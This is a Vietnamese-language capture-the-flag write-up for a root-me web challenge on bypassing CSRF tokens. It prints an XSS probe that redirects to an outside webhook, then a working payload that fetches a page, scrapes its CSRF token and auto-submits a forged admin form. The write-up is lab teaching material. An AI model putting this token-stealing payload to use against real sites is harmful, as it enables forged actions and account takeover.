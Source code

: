 # root-me - CSRF token bypass

Sau khi `register` trang web có phần `Private` chứa flag, tuy nhiên để xem được flag cần được `validate` từ admin.

![validated form](validate.png)

Ta cần submit form này để có thể validate tuy nhiên chỉ admin mới có quyền.

Trang web có tính năng `contact`, thử trigger xss request đến `webhook endpoint` thì đúng dính thật.

![contact form](xss-contact.png)

**Payload**: trigger
```html
<script>window.location.href=".*pipedream.*"</script>
```

Một vài lưu ý nhỏ là bot ở root-me khá lâu đời rồi nên không xài được `fetch` để gửi `post request` nhưng không sao cả, ta dùng `XMLHttpRequest`.

**Payload**: Sau nhiều lần đập đi test lại
```html
<form id="profile" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
	<input id="username" type="hidden" name="username" value="devme">
	<input id="status" type="hidden" name="status" value="on" >
	<input id="token" type="hidden" name="token" value="#" />
</form>

<script>
	var xhttp = new XMLHttpRequest();

	xhttp.onload = function() {
		var results = this.responseText;
		var token = results.match(/name="token" value="(.*)"/)[1];
		document.getElementById("token").setAttribute("value", token);
		document.forms[0].submit(); // submit post form sau khi trộm được token và set.
	}

	xhttp.open("GET", "http://challenge01.root-me.org/web-client/ch23/?action=profile"); // get request đến profile để trộm token.
	xhttp.send();

</script>
```

Dán vào contact form và ngồi đợi thôi!

**flag**:
![flag](flag.png)
